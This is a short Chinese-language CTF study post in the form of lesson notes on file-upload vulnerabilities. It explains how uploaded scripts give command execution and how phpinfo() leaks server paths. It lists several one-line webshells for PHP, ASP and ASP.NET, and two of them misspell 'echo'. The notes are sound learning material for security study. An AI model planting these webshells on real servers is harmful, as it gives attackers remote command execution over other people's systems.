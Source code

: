 ```yaml
---
title: WEB入门（三）
date: 2018-07-06 09:04:22
tags: [ctf, web]
---
```


今天学姐主要讲了文件上传漏洞，了解了 Cknife 等工具的使用。



# 文件上传漏洞

上传的文件不进行限制，有可能会被利用于上传可执行文件、脚本到服务器上，并且通过脚本文件可以获得执行服务器端命令的能力

## 木马

根据语言分类，有 PHP、ASP、JSP、ASP.NET 等不同语言下的木马；根据作用分类，有大马和小马。

PHP 一句话木马：

- `<?php ehco shell_exec($_GET['a']); ?>`
- `<?php ehco shell_exec($_POST['a']); ?>`
- `<?php @eval($_POST['a']); ?>`

ASP 一句话木马：

- `<%eval request("Cknife")%>`

ASP.NET 一句话木马：

- `<%@ Page Language="Jscript"%><%eval(Request.Item["Cknife"],"unsafe");%>`

## 利用函数

1. `shell_exec()`：通过环境执行命令，并且将完整的输出以字符串的方式返回。
2. `eval()`：把字符串作为 PHP 代码执行执行 a 接收到的内容。

## phpinfo()

|   介绍   |         内容         |
| :------: | :------------------: |
|   语法   | `int phpinfo(void);` |
|  返回值  |         整数         |
| 函数种类 |     PHP 系统功能     |

`phpinfo()` 会泄漏很多敏感的信息。

1. 绝对路径（`_SERVER["script_FILENAME"]`）

找到 `phpinfo()` 可以直接找到网站的绝对路径。
